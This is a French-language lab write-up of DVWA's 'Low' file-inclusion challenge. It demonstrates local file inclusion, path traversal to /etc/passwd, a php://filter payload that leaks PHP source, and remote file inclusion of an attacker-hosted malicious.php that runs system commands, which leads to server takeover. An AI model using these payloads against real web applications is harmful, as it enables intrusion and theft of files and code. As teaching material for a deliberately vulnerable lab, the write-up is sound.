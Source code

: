 # Niveau "Low"

Ce challenge propose une première page permettant d'accéder à trois fichiers nommés respectivement "file1.php", "file2.php" et "file3.php" :

![](../../../../.gitbook/assets/d513ac6fd858482c45cf09f35f0593d7.png)

Dont voici le contenu du fichier "file1.php" :

![](../../../../.gitbook/assets/8be03bac1ed4c2ab6587df1fdef97d28.png)

Du fichier "file2.php" :

![](../../../../.gitbook/assets/974fe5f5ca7d43775430e06a87646d24.png)

Ainsi que de "file3.php" :

![](../../../../.gitbook/assets/a701d84bd50ba8b731ee7c735e68f7ce.png)

**Local File Inclusion (LFI)**

Ce qui est important de **** repérer **** ici, c'est que le nom du fichier à inclure se retrouve en tant que valeur du paramètre `page` présent dans l'URL :

![](../../../../.gitbook/assets/3a508a736095328be32d907b97cb7749.png)



_Inclusion d'un fichier local du même niveau d'arborescence_

Une première attaque va consister à inclure des pages localement présentes, soit une LFI. Avec, dans un premier temps, un fichier au même niveau de l’arborescence :

![](../../../../.gitbook/assets/d6b64cb00929508c36c0d672cd144f56.png)



_Inclusion d'un fichier local en utilisant une attaque de type path traversal_

Ou alors, de sortir du niveau courant de l'arborescence et d'utiliser dans le même temps une autre attaque nommée path traversal (ou directory traversal). Cette attaque consiste à injecter des occurrences de type `../` (ou équivalent) afin de remonter l’arborescence du système vulnérable :

![](../../../../.gitbook/assets/90195f7432883cf0d78823d0f5c7aeeb.png)

{% hint style="info" %}
Il est possible sous DVWA en niveau "Low" d'utiliser directement la syntaxe `?page=/etc/passwd` mais cela peut ne pas fonctionner suivant l'application ou le système cible
{% endhint %}

__

_Utilisation des wrappers PHP_

Lorsqu'une vulnérabilité LFI est détectée, il peut être utile, si cela est possible, d'utiliser les wrappers PHP afin d'avoir plus d'impact. Par exemple, le wrapper `php://filter` peut être utilisé pour récupérer le code source des pages `.php` . Dans l'exemple suivant, je récupère le code source (en haut de la page, encodé en base64) de la page `include.php` :

```http
?page=php://filter/convert.base64-encode/resource=include.php
```

![](../../../../.gitbook/assets/df136bf6f7dfc8bc478d6d12001362e5.png)

Une fois décodée (il s'agit juste d'un extrait) :

![](../../../../.gitbook/assets/ecc0129a677c8961d5f67ff64613be82.png)

D'autres wrappers sont intéressants à exploiter et peuvent mener à une RCE.



**Remote File Inclusion (RFI)**

Une RFI survient quand il est possible d'injecter/d'inclure un fichier distant. Ici un exemple simple est l'inclusion de la page `google.fr` :

```http
?page=http://www.google.fr
```

![](../../../../.gitbook/assets/d275ac6038a70e54f0a0e18ec0b2daa8.png)

Cette attaque peut permettre d'inclure un script malicieux distant (hébergée sur une machine contrôlée par l'attaquant). L'exemple ici ne fera que retourner le nom de la machine (qui est, dans mon cas, l'identifiant de l'instance docker) :

{% code title="malicious.php" %}
```php
<?php
  system('hostname');
?>
```
{% endcode %}

![](../../../../.gitbook/assets/8e56ab467f02f4a731a6aa507973589e.png)

Cela mène donc à une prise de contrôle du serveur.

{% hint style="info" %}
Cela ne s'arrête pas là mais les possibilités sont vastes : récupération d'un shell plus complet, maintien de l'accès, tentative d'élévation de privilèges, pivotage, ...
{% endhint %}
